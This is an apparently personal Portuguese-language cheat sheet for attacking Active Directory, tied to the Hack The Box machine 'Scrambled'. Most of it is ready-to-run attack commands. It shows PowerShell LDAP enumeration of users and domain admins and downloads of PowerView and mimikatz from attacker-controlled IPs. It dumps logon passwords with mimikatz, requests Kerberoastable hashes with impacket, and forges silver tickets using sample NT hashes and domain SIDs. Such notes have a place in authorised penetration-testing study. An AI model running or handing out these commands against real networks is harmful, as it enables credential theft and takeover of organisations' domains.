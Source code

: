 Active Directory Exploitation
========================
## Enumerar hashes de senha



Vale considerar que já deixei as credenciais salvas para evitar problemas


## 2 - Enumeração manual

### Powershell

Enumeração de usuários

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"; $SearchString += $DistinguishedName; $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString); $objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter="samAccountType=805306368";$Searcher.FindAll()
```

Enumeração de usuários (com mais detalhes):

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"; $SearchString += $DistinguishedName; $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString); $objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter="samAccountType=805306368";$Result = $Searcher.FindAll(); Foreach($obj in $Result){Foreach($prop in $obj.Properties){$prop}Write-Host "------------------------"}
```

Enumerar grupos:

```
$ldapFilter = "(objectClass=Group)";$domain = New-Object System.DirectoryServices.DirectoryEntry; $search = New-Object System.DirectoryServices.DirectorySearcher; $search.SearchRoot = $domain; $search.PageSize = 1000; $search.Filter = $ldapFilter; $search.SearchScope = "Subtree";$results = $search.FindAll();foreach ($result in $results){$result.Properties.name}
```

Membros dos grupos:

```
$ldap_filter = "(name=LAPS_Readers)"; $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter=$ldap_filter;$Result = $Searcher.FindAll(); Foreach($obj in $Result) {$obj.Properties.member}
```

Enumerar domain admins:
```
$ldap_filter = "(|(name=Domain Admins)(name=Administrators))"; $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter=$ldap_filter;$Result = $Searcher.FindAll(); Foreach($obj in $Result) {$obj.Properties.member}
```

#### PowerView


```
(new-object net.webclient).downloadfile('http://10.10.14.17/PowerView.ps1', 'c:\temp\pv.ps1')
. .\pv.ps1
get-netsession -computername htb.local
get-netloggedon -computername htb.local
```

    get-netdomain
    
    get-domainuser "user1" #olhar um usuário específico

### Winpeas



### Enumerar hashes users (AsRep Roasting)



**NESTA ETAPA É INTERESSANTE QUE TENHAMOS FEITO A ESCALAÇÃO DE PRIVILÉGIO PARA CONSEGUIR CONDUZIR MAIS ALGUNS TESTES, SENDO ELES:**

```
wget http://10.10.10.10/6-ADTools/mimikatz/x64/mimikatz.exe -O m.exe
#ou 
copy \\192.168.0.165\smb\mimikatz.exe c:\temp\m.exe
```

```
./m.exe
privilege::debug
sekurlsa::logonpasswords
```

Agora já temos condições do obter os hashes de senhas necessários por meio do seguinte comando:


```
impacket-GetUserSPNs scrm.local/ksimpson -k -no-pass -request -dc-host dc1.scrm.local
```

**Dar atenção neste último comando, pois o nome do -dc-host deve ser conforme está no registro de DNS pra que o comando funcione corretamente.**

Agora, temos de fazer o silver ticket

### Silver ticket

Aqui precisamos de algumas informações. **Não necessitamos de um usuário com privilégio administrativo pra esse cara. Isso é IMPORTANTE.**

Então temos que ir atrás de:

1\) Domain SID

2\) Hash

3\) Nome do domínio

4\) SPN

#### Obtendo o domain SID

```
impacket-getPac -targetUser administrator domain/user:password
```

```
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
```

**Obtendo o silver ticket**

```
impacket-ticketer -nthash 5f38c0485f0c23f8dedf9bf23ffa5336  -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
```

Caso já tenha acesso na máquina

```
whoami /user
#Daí, com o mimikatz, a gente faz o seguinte:
./m.exe
kerberos::list
kerberos::golden /user:user /domain:domain.com /sid:domain-SID /target:SPN /service:HTTP
/rc4:NTLM /ptt
#Exemplo
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP
/rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list
```

Tem a demonstração deste ataque no seguinte vídeo (Scrambled - Hack the box):

{% embed url="https://www.youtube.com/watch?v=_8FE3JZIPfo&ab_channel=IppSec" %}

[https://www.hackingarticles.in/lateral-movement-pass-the-ccache/](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



